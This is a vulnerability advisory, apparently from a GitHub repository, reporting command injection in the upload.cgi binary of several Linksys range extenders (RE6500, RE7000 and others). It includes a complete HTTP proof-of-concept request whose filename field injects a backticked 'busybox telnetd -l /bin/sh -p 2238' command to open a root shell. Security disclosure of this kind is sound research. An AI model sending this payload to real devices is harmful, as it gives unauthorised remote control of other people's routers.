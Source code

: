 # Linksys Vulnerability

Vendor:Linksys

Product:RE6500、RE6250、RE6300、RE6350、RE7000、RE9000

Version:RE6500(1.0.013.001)

RE6250(1.0.04.001)

RE6300(1.2.07.001)

RE6350(1.0.04.001)

RE7000(1.1.05.003)

RE9000(1.0.04.002)

Type:Remote Command Execution & Stack Overflow

Author:Jiaqian Peng

Mail:pengjiaqian@iie.ac.cn

Institution:Institute of Information Engineering,Chinese Academy of Sciences(IIE, CAS)

> This vulnerability affects many products, according to our observation, including the latest products such as RE6300、RE7000, etc.
>
> This vulnerability reporting environment is for RE6500



## Vulnerability description

We found an command Injection vulnerability in Linksys router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `upload.cgi` binary:

In `cgiMain` function, `filename` is directly passed by the attacker, so we can control the `filename` to attack the OS.

<div  align="center"><img src="./images/1.png" style="zoom:80%;" /></div>

**Supplement**

in the program. In order to avoid such problems, we believe that the string content should be checked in the input extraction part.



## PoC

We set `filename` as **`busybox telnetd -l /bin/sh -p 2238`** , and the router will excute it,such as:

```http
POST /cgi-bin/upload.cgi HTTP/1.1
Host: 192.168.2.2
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------38456941834005563331761055607
Content-Length: 6946194
Origin: http://192.168.2.2
Connection: close
Referer: http://192.168.2.2/admin/upgrade.shtml
Cookie: session_id=WBoJlTQIMha6wTMotm9LmF2JywMTFpxj; current_upgrade_method=manual
Upgrade-Insecure-Requests: 1

-----------------------------38456941834005563331761055607
Content-Disposition: form-data; name="filename"; filename="`busybox telnetd -l /bin/sh -p 2238`"
Content-Type: application/octet-stream

-----------------------------38456941834005563331761055607--
```



## Result

Get a shell!

<div  align="center"><img src="./images/2.png" style="zoom:80%;" /></div>

